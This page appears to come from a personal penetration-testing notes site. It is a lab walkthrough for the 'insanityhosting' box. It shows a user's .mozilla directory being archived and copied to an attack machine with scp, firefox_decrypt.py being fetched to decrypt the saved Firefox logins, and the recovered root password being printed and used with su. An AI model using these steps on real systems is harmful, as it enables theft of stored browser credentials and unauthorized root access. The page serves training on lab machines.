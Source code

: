 ```yaml
---
layout: default
title: Mozilla Decrypt
parent: Cracking
nav_order: 3
---
```


# Mozilla Decrypt

---

There is a _.mozilla_ directory we can maybe get creds from.

Tar the directory and transfer to our attack machine.

```bash

# Tar the entire .mozilla directory
[elliot@insanityhosting ~]$ tar -czf mozilla.tgz .mozilla/

# Netcat not available so use SCP to transfer to attack box
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/insanityhosting]
└─$ scp elliot@192.168.202.124:mozilla.tgz .
elliot@192.168.202.124s password:
mozilla.tgz                                                           100%   40MB   1.9MB/s   00:21

# Extract the files
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/insanityhosting]
└─$ tar -xzf mozilla.tgz


```

We'll use the _firefox_decrypt.py_ script to extract any credentials in the Mozilla files.

[Firefox Decrypt GitHub Raw Code](https://raw.githubusercontent.com/unode/firefox_decrypt/main/firefox_decrypt.py)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/insanityhosting]
└─$ wget https://raw.githubusercontent.com/unode/firefox_decrypt/main/firefox_decrypt.py
--2023-11-18 21:24:26--  https://raw.githubusercontent.com/unode/firefox_decrypt/main/firefox_decrypt.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.111.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 39242 (38K) [text/plain]
Saving to: ‘firefox_decrypt.py’

firefox_decrypt.py        100%[=====================================>]  38.32K  --.-KB/s    in 0.01s

2023-11-18 21:24:26 (3.01 MB/s) - ‘firefox_decrypt.py’ saved [39242/39242]


```

Run the _firefox_decrypt.py_ on _.mozilla/firefox_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/insanityhosting]
└─$ python3 firefox_decrypt.py .mozilla/firefox/
Select the Mozilla profile you wish to decrypt
1 -> wqqe31s0.default
2 -> esmhp32w.default-default
2

Website:   https://localhost:10000
Username: 'root'
Password: 'S8Y389KJqWpJuSwFqFZHwfZ3GnegUa'

```

Use the extracted password to switch to the _root_ user.

```bash
[elliot@insanityhosting ~]$ su root
Password:
[root@insanityhosting elliot]# id
uid=0(root) gid=0(root) groups=0(root)
[root@insanityhosting elliot]# whoami
root

```
